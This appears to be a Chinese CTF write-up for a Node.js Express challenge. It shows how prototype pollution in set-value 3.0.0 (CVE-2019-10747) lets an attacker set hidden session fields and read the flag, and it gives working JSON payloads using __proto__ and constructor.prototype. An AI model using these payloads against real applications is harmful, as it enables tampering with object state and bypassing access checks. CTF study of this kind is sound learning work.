





## node tricks

本题目使用node js的express框架搭建，拿到源码后重点关注几个部分：

* app.js

  关键代码如下，这里使用routes/index.js进行路由：

  ```javascript
  ...
  var indexRouter = require('./routes/index');
  ...
  app.use('/', indexRouter);
  ...
  ```

* routes/index.js

  ```javascript
  var express = require('express');
  var set = require('set-value');
  var crypto = require("crypto");
  var router = express.Router();
  var config = require('../config.js');
  
  function sha1(s) {
    return crypto.createHash("sha1")
        .update(s)
        .digest("hex");
  }
  
  router.get('/', function(req, res) {
    // res.render('index', {msg : "Welcome to NodeJS Lab!"});
    res.send("Welcome to NodeJS Lab!");
  });
  
  router.get("/begin", function (req, res) {
    req.session.data = {
      name : "guest"
    }
    req.session.hidden = {}
    // res.render("index", {msg : "Let's begin!"});
    res.send("Let's begin!");
  });
  
  router.post("/set", function (req, res) {
    if(req.session.data === undefined){
      res.redirect('/begin');
    } else {
    	input = req.body;
    	for(let i in input)
    	{
  	    set(req.session.data, i, input[i]);
    	}
    	// res.render("index", {msg : "Set variable success!"});
    	res.send("Set variable success!");
    }
  });
  
  router.get("/flag", function (req, res) {
    const salt = "or4nge";
    
    var hidden = req.session.hidden;
  
    if (hidden === undefined || hidden.x === undefined || hidden.y === undefined || hidden.x.length !== hidden.y.length) {
    	  // res.render("index", {msg : "Bad input"});
    	  res.send("Bad variable");
        return;
    }
  
    if (hidden.x !== hidden.y && sha1(salt + hidden.x) === sha1(salt + hidden.y)) {
    	  // res.render("index", {msg : config.flag});
    	  res.send(config.flag)
        return;
    }
  
    // res.render("index", {msg : "Access denied"});
    res.send("Access denied");
  });
  
  module.exports = router;
  
  ```

  * /begin会初始化req.session.data={name:"guest"}，req.session.hidden={}
  * /set会接收用户输入的键值对，赋值给req.session.data
  * /flag会获取req.session.hidden.x和req.session.hidden.y，如果两变量强类型不等且长度相同、sha1值相等，则返回flag

* package.json

  ```json
  {
    "name": "app",
    "version": "0.0.0",
    "private": true,
    "scripts": {
      "start": "node ./bin/www",
      "devstart": "nodemon ./bin/www"
    },
    "dependencies": {
      "cookie-parser": "~1.4.4",
      "debug": "~2.6.9",
      "express": "~4.16.1",
      "express-session": "^1.17.1",
      "http-errors": "~1.6.3",
      "morgan": "~1.9.1",
      "pug": "2.0.0-beta11",
      "set-value": "3.0.0"
    },
    "devDependencies": {
      "nodemon": "^2.0.7"
    }
  }
  ```

仔细研究可以发现源码中使用的set-value模块很可疑，且package.json限定set-value只能是3.0.0版本。查询后可知该模块用于设置嵌套属性，而3.0.0版本中存在原型链污染漏洞（CVE-2019-10747），因此本题解法就比较清晰了。

通过原型链污染req.session.data的原型，即可使/flag获取req.session.hidden.x和req.session.hidden.y时获取到污染的变量值，然后只需要让x=[0]，y="0"，即可满足x与y强类型不等(x !== y)，长度均为1，sha1值均为sha1(salt + "0")，从而获得flag。

详细步骤如下：

GET 访问 /begin，获得cookie



POST 向/set 传json，设置变量

```
{"__proto__.x":[0],"__proto__.y":"0"}
```



访问/flag获得flag



实际上如果\_\_proto\_\_被过滤也是可以进行原型链污染的，如下图所示，\_\_proto\_\_的全称为points to constructor.prototype，它指向的是构造函数的原型，因此我们也可以使用constructor.prototype来代替\_\_proto\_\_。



设置变量，一把梭获得flag~

```
{"constructor.prototype.x":[0],"constructor.prototype.y":"0"}
```




### flag

flag{4571225a-f9ce-46b7-a4e5-58a92bcfd13c}